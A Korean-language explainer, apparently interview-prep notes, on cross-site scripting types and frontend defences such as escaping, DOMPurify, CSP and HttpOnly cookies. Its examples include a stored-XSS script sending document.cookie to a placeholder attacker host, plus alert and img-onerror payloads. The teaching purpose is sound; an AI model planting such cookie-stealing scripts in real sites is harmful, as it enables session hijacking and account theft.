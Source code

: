 ## XSS 공격이란 무엇이며, 프론트엔드에서 이를 방어하기 위한 방법을 설명해주세요.

XSS(Cross-Site Scripting)는 웹 애플리케이션의 취약점 중 하나로, 공격자가 신뢰할 수 있는 웹사이트에 악의적인 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되게 하는 공격 기법입니다.

### 피해 사례
* **쿠키 및 세션 토큰 탈취** : 사용자의 세션을 가로채 해당 사용자로 위장합니다.
* **개인 정보 유출** : 사용자의 개인 정보나 민감한 데티어를 훔칩니다.
* **피싱 사이트로 유도** : 가짜 로그인 페이지 등을 보여주어 사용자 계정 정보를 탈취합니다.
* **악성코드 설치 유도** : 사용자 모르게 악성코드를 다운로드하거나 설치하도록 유도합니다.
* **웹사이트 변조** : 사용자에게 보이는 웹 페이지의 내용을 임의로 변경합니다.

### 주요 공격 유형
#### **Stored XSS** 
* 악성 스크립트가 웹사이트의 데이터베이스나 파일 시스템과 같은 서버 측에 영구적으로 저장되어 다른 사용자가 해당 스크립트가 포함된 페이지를 방문할 때마다 브라우저에서 악성 스크립트가 실행됩니다.
* 공격자가 게시판 댓글에 `<script>document.location='http://attacker.com/cookie?c='+document.cookie'</script>`와 같은 스크립트를 삽입하고 다른 사용자가 댓글을 보면 해당 사용자의 쿠키가 공격자의 서버로 전송됩니다.
* 불특정 다수를 대상으로 공격할 수 있어 파급력이 큽니다.

#### **Reflected XSS**
* 악성 스크립트가 URL의 파라미터나 폼 입력 값 등을 통해 서버로 전달되고 서버가 이를 검증 없이 그대로 응답 페이지에 포함하여 사용자에게 반환할 때 발생합니다.
* 공격자가 `https://example.com/search?q=<script>alert('Reflected XSS!')</script>`와 같은 악성 링크를 만들어 사용자에게 이메일이나 메신저로 전송하고 사용자가 이 링크를 클릭하면 브라우저에게 경고창이 뜹니다.
* 스크립트가 서버에 저장되지 않으며 주로 피싱 공격 등 사용자를 속여 특정 링크를 클릭하게 하는 방식으로 이루어집니다.

#### **DOM-based XSS**
* 서버와는 무관하게 브라우저의 클라이언트 측 스크립트가 DOM을 동적으로 조작하는 과정에서 발생합니다. URL의 프래그먼트(`#`)나 클라이언트 측 스토리지 값을 읽어와 안전하지 않은 방식으로 DOM에 삽입할 때 발생합니다.
* `https://example.com/#<img src=x onerror=alert('DOM XSS')>`와 같은 URL에서 클라이언트 스크립트가 `#`뒤의 값을 가져와 `innerHTML`등을 사용해 페이지에 그대로 삽입하면 `onerror`이벤트가 실행됩니다.
* 서버 측에서는 탐지하기 어려우며 프론트엔드 코드의 안전성이 중요합니다.

### 프론트엔드에서 XSS 방어 방법
#### 출력 인코딩 / 이스케이핑
* 사용자로부터 입력받거나 외부에서 가져온 데이터를 HTML, JavaScript, CSS 등 특정 컨텍스트에 삽입할 때는 항상 해당 컨텐스트에 맞는 방식으로 인코딩/이스케이핑하여 데이터가 코드로 해석되지 않고 순수한 텍스트로 취급되도록 해야 합니다.
* `<` `>` `&` `"` `'`등의 특수 문자를 HTML 엔티티(`&lt;` `&gt;` `&quot;` `&#39;`)로 변환합니다.
* `element.textContent = data;`를 사용하면 자동으로 텍스트로 처리되므로 `element.innerHTML = data`보다 안전합니다.
* React, Vue, Angular 등 최신 프레임워크는 기본적으로 데이터를 렌더링할때 자동 이스케이핑을 수행합니다.
* href, src 등의 속성에 데이터를 넣을 때는 URL 인코딩을 적용해야 합니다.

#### HTML Santization
* 사용자가 HTML 형식의 입력을 해야 하는 경우 모든 HTML을 막는 대신 안전한 HTML 태그와 속성만 허용하고 위험한 태그(`<script>` `<object>` `<embed>`)나 속성(`onerror` `onclick`)을 제거하는 라이브러리를 사용합니다.
* 대표적인 라이브러리로 **DOMPurify**가 있습니다. `dangerouslySetInnerHTML`이나 `v-html`사용 시 DOMPurify를 통해 먼저 데이터를 정화하고 사용하는 것이 좋습니다.

#### 콘텐츠 보안 정책 (Content Security Policy)
* 웹 서버가 브라우저에게 신뢰할 수 있는 콘텐츠 소스를 알려주는 HTTP 헤더입니다.
* CSP를 설정하면 허용되지 않은 외부 스크립트의 실행, 인라인 스크립트 실행 등을 차단하여 XSS 공격의 피해를 크게 줄일 수 있습니다.

#### HttpOnly, Secure 쿠키 플래그 사용
* 서버에서 쿠키를 설정할 때 `HttpOnly`플래그를 사용하면 클라이언트 측 JavaScript에서 해당 쿠키에 접근하는 것을 막을 수 있습니다.
이는 XSS 공격으로 쿠키를 탈취하는 것을 효과적으로 방지합니다.
* `Secure`플래그는 HTTPS 연결에서만 쿠키가 전송되도록 하여 중간자 공격을 막습니다. 
